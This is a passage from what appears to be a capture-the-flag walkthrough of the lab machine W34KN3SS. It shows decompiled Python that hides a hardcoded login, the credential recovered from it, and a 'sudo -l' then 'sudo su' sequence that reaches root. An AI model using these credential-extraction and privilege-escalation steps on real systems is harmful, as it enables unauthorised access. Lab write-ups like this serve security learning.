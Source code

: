 	# Warning: this version of Python has problems handling the Python 3 byte type in constants properly.

	# Embedded file name: code.py
	# Compiled at: 2018-05-08 23:50:54
	import os, socket, time, hashlib
	print ('[+]System Started at : {0}').format(time.ctime())
	print '[+]This binary should generate unique hash for the hardcoded login info'
	print '[+]Generating the hash ..'
	inf = ''
	inf += chr(ord('n'))
	inf += chr(ord('3'))
	inf += chr(ord('0'))
	inf += chr(ord(':'))
	inf += chr(ord('d'))
	inf += chr(ord('M'))
	inf += chr(ord('A'))
	inf += chr(ord('S'))
	inf += chr(ord('D'))
	inf += chr(ord('N'))
	inf += chr(ord('B'))
	inf += chr(ord('!'))
	inf += chr(ord('!'))
	inf += chr(ord('#'))
	inf += chr(ord('B'))
	inf += chr(ord('!'))
	inf += chr(ord('#'))
	inf += chr(ord('!'))
	inf += chr(ord('#'))
	inf += chr(ord('3'))
	inf += chr(ord('3'))
	hashf = hashlib.sha256(inf + time.ctime()).hexdigest()
	print ('[+]Your new hash is : {0}').format(hashf)
	print '[+]Done'
	```
	- n30:`dMASDNB!!#B!#!#33`
6. Check sudo access
	```
	n30@W34KN3SS:~$ sudo -l
	[sudo] password for n30: dMASDNB!!#B!#!#33
	Matching Defaults entries for n30 on W34KN3SS:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	```
7. Switch to root
	```
	User n30 may run the following commands on W34KN3SS:
		(ALL : ALL) ALL
	n30@W34KN3SS:~$ sudo su
	root@W34KN3SS:/home/n30# whoami
	root
	root@W34KN3SS:/home/n30# 
	```